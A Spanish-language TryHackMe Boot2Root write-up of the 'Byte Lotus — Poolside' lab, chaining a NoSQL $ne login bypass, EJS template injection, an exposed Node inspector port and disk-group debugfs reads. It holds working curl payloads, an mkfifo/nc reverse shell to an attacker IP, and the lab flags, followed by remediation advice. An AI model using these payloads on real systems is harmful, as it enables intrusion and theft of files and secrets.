Plataforma
TryHackMe
Cadena de compromiso total en un reto Boot2Root: bypass de autenticación por NoSQL Injection contra NeDB, ejecución remota de código vía Server-Side Template Injection en EJS, y escalada a root abusando de un puerto de debugging del Node.js Inspector Protocol expuesto localmente, combinado con membresía en el grupo disk para lectura cruda del disco.
El objetivo era un reto Boot2Root temático de una plataforma de reservas junto a la pileta del resort, "Byte Lotus — Poolside". El briefing de la sala insinuaba sesiones secuestradas, transacciones de wallet no autorizadas y la presencia de un atacante ya dentro del sistema. El objetivo: obtener la user flag y la root flag.
Un escaneo con Nmap reveló únicamente dos puertos abiertos: SSH (22) y un servicio HTTP (80) corriendo sobre Node.js con middleware Express.
nmap -sC -sV -F 10.65.155.92
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.18
80/tcp open http Node.js (Express middleware)
|_http-title: Byte Lotus — Poolside
La página de inicio mostraba un formulario de login simple ("Staff / Guest ID" + "Passphrase"), renderizado del lado del servidor sin JavaScript en el cliente. El brute-forcing de directorios confirmó dos rutas adicionales reales: /staff (403 Forbidden — existe pero requiere sesión) y /logout (redirect 302 — confirma manejo de sesión basado en cookies).

Se identificaron tres vulnerabilidades encadenables a lo largo de la cadena de ataque:
/login aceptaba cuerpos application/json sin validar el tipo de dato de los campos, permitiendo enviar un operador ({"$ne": null}) en lugar de un string.ejs.render() sin sandboxing, permitiendo ejecución de JavaScript arbitrario y, desde ahí, comandos del sistema operativo.127.0.0.1:9229) quedó abierto en un proceso separado corriendo como un usuario de servicio distinto y más privilegiado, alcanzable una vez obtenida ejecución de código en el host.Paso 1 — Bypass de autenticación por NoSQL Injection. Interceptando el POST de login con Burp Suite se confirmó que el backend aceptaba cuerpos JSON. Enviando un operador $ne en lugar de un string en el campo de contraseña se evitó por completo la verificación de credenciales:
curl -s -X POST http://10.65.155.92/login \
-H "Content-Type: application/json" \
-d '{"username":{"$ne":null},"password":{"$ne":null}}'
{"ok":true,"role":"guest"}Probando distintos nombres de usuario se confirmó attendant como cuenta válida con rol staff, mientras que admin y staff como usernames literales no existían:
curl -s -X POST http://10.65.155.92/login \
-H "Content-Type: application/json" \
-d '{"username":"attendant","password":{"$ne":null}}' \
-c cookies.txt
{"ok":true,"role":"staff"}

Paso 2 — SSTI en el campo de template (EJS) → confirmación. La consola de staff ("Cabana Desk") exponía un campo de "Confirmation template" documentado como EJS (<%= guest %>). Un payload aritmético confirmó la inyección:
# Payload de confirmación
<%= 7*7 %>
→ La respuesta del servidor devuelve: 49
Paso 3 — Escalada a RCE. Dado que EJS ejecuta JavaScript arbitrario al renderizar, se escaló la SSTI a ejecución de comandos del sistema operativo usando global.process.mainModule.require('child_process').execSync(), y desde ahí a una reverse shell (lanzada como proceso en background para no bloquear el event loop de Node):
# Listener en la máquina atacante
nc -lvnp 4444
# Payload enviado al campo de template (POST /staff/preview)
curl -s -b cookies.txt -X POST http://10.65.155.92/staff/preview \
-H "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode 'template=<%= global.process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.136.224 4444 >/tmp/f").toString() %>'
Paso 4 — User flag. Con la shell activa como poolside (uid=996) se localizó la flag en el home del usuario:
poolside@tryhackme-2404:/opt/poolside$ find / -name "user.txt" 2>/dev/null
/home/poolside/user.txt
poolside@tryhackme-2404:/opt/poolside$ cat /home/poolside/user.txt
THM{w4rm_s3ss10n_h1j4ck3d}
THM{w4rm_s3ss10n_h1j4ck3d}Paso 5 — Escalada de privilegios: Node Inspector Protocol expuesto. La enumeración estándar de privesc (binarios SUID, capabilities, cron jobs) no arrojó nada explotable. Revisando sockets en escucha se encontró el Node.js Inspector Protocol vinculado a 127.0.0.1:9229 — un puerto de debugging dejado abierto en un proceso separado, corriendo como otra cuenta de servicio con más privilegios: pipelinesvc (uid=995), miembro del grupo disk.
poolside@tryhackme-2404:/opt/poolside$ ss -tulpn 2>/dev/null | grep 9229
tcp LISTEN 0 511 127.0.0.1:9229 0.0.0.0:*
poolside@tryhackme-2404:/opt/poolside$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug> repl
Press Ctrl+C to leave debug repl
> process.getuid()
995
> process.getBuiltinModule('child_process').execSync('id').toString()
'uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)\n'

Paso 6 — Root flag vía acceso crudo al disco. La membresía en el grupo disk otorga acceso de lectura a dispositivos de bloque crudos, saltándose las verificaciones normales de permisos del sistema de archivos. Tras identificar /dev/nvme0n1p1 como la partición raíz, se usó debugfs (un debugger de sistemas de archivos ext4) para leer /root/root.txt directamente desde la partición cruda — sin necesitar una shell como root:
> process.getBuiltinModule('child_process').execSync('ls -l /dev/sd* /dev/vd* /dev/nvme* /dev/mapper/* 2>/dev/null || true').toString()
'crw------- 1 root root 10, 236 ... /dev/mapper/control\n' +
'crw-rw---- 1 root disk 259, 0 ... /dev/nvme0\n' +
'brw-rw---- 1 root disk 259, 1 ... /dev/nvme0n1\n' +
'brw-rw---- 1 root disk 259, 2 ... /dev/nvme0n1p1\n'
> process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs',
['-R', 'cat /root/root.txt', '/dev/nvme0n1p1'], { encoding: 'utf8' })
'THM{r4w_d1sk_4cc3ss_w4s_t00_much}\n'

THM{r4w_d1sk_4cc3ss_w4s_t00_much}La cadena completa resultó en compromiso total del sistema, sin necesidad de obtener nunca una shell interactiva como root:
El impacto es critical: un atacante sin cuenta previa puede pasar de un formulario de login público a lectura arbitraria de archivos del sistema como root, encadenando tres fallas de configuración y desarrollo independientes. En un entorno real, esto equivale a compromiso total de la infraestructura — incluyendo la base de datos de reservas, wallets de huéspedes y cualquier secreto almacenado en el filesystem.
ejs.render() (o equivalente) tratándolo como código.disk equivale a acceso de lectura a nivel root sobre el filesystem completo y debe evitarse salvo necesidad estrictamente justificada.Este reto es un ejemplo claro de cómo tres vulnerabilidades de severidad moderada por separado —una inyección de autenticación, un motor de templates sin sandboxing, y un puerto de debugging olvidado— se combinan para producir un compromiso total del sistema. Ninguna de las tres, aislada, hubiera bastado: la NoSQL injection solo daba una sesión de bajo privilegio, la SSTI requería esa sesión previa, y el Inspector Protocol solo era alcanzable una vez lograda ejecución de código en el host.
También refuerza un principio de higiene operacional poco discutido: las herramientas de debugging (inspectors, REPLs remotos, endpoints de introspección) son, en la práctica, backdoors legítimos cuando quedan expuestas — incluso si están atadas a localhost, porque cualquier RCE previo en el mismo host las vuelve alcanzables. Y la lectura cruda de disco vía debugfs es un recordatorio de que "root" no es la única forma de leer archivos protegidos: cualquier proceso con acceso al dispositivo de bloque subyacente puede saltarse por completo los permisos del filesystem.